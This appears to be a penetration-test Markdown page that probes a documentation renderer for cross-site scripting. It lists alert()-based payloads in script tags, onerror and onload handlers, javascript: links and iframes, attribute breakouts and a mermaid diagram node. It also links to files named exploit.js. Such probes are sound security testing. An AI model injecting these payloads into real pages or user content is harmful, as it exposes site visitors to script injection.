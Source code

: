 # injection

pentest

<script>alert('XSS');</script>

![Broken Image](invalid.jpg ':size=250' )
<img src="invalid.jpg" onerror="alert('XSS')">

<svg onload="alert('XSS')"></svg>

<img src="valid-image.jpg" alt="test" title="XSS" onerror=alert('XSS')>

<img src="valid-image.jpg" alt="test" title="><script>alert('XSS')</script>">

<iframe src="javascript:alert('XSS');"></iframe>

[Click Me](javascript:alert('XSS'))

[malicious link](something"onmouseover="alert('XSS'))

## XSS Test
 ```mermaid
  graph LR
      B-->D(<img onerror=location=`javascript\u003aalert\u0028document.domain\u0029` src=x>);
 ```
## js script
-[get jpg](/SampleJPGImage_1mbmb.jpg ':target=_blank')
-[get js](/exploit.js)
![get js](/exploit.js)
-[get js](/exploit.svg)
![get js](/exploit.svg)

```
## iFrames Test

<figure>
<iframe width="425" height="350" frameborder="0" scrolling="no" marginheight="0" marginwidth="0" src="https://i.ytimg.com/vi/-IXqbuMOwYg/hq720.jpg?sqp=-oaymwEcCNAFEJQDSFXyq4qpAw4IARUAAIhCGAFwAcABBg==&rs=AOn4CLDmcWpHub9FsBmp6vQgQTz0sWK14Q" style="border: 1px solid black"></iframe>
</figure>

<figure>
<iframe width="560" height="315" src="https://www.youtube.com/embed/-IXqbuMOwYg" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</figure>

